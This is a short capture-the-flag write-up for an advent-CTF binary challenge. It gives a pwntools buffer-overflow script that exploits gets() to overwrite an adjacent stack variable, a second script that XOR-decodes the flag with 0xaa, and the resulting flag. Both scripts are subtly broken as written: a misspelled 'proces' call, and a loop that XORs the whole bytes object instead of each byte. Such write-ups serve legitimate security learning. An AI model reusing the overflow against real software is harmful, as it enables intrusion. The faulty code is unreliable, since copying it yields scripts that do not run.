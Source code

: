 <img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day2_description.png">

For this chall I have 2 solutions.
## Solution 1:
Analyzing the file in dogbolt I saw in the main function a buffer overflow because of the `gets` function:

<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_2_info1.png">
 
I think this is also the intended solution by the author. The goal of the challenge is to change the value of `local_12` from 0 to something else. This variable is also stored right after the buffer, which is used to get the user input. So, using a buffer overflow I can change the value stored in `local_12`.

Below is the solution script. Because the buffer which reads user input has a size of `8166` I need at least `8167` bytes in the payload:
```python
from pwn import *

binary='chall'
p=proces(binary)
payload=b"A"*8166 + b"\x01"
p.sendline(payload)

output=p.recvall()
print(output)
```
## Solution 2:
In dogbolt I can also see the win function and what it does exactly:

<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_2_info2.png">

So, for each byte in that hex strings, it just xor it with `0xaa` to print out the flag. I can reverse the logic of this (`A xor 0xaa = B` and `B xor 0xaa = A`):
```python
encoded_flag=b"\xc9\xd9\xce\xd1\xce\x9e\xd3\xf5\x98\xf5\xe2\x9a\xdd\xf5\xd8\xf5\xdf\x95\xd7\x00"
decoded_flag=[]

for i in range (0,len(encoded_flag)):
    decoded_flag.append((encoded_flag^0xaa))

flag=''.join([chr(x) for x in decoded_flag])
print(flag)
```

`csd{d4y_2_H0w_r_u?}`
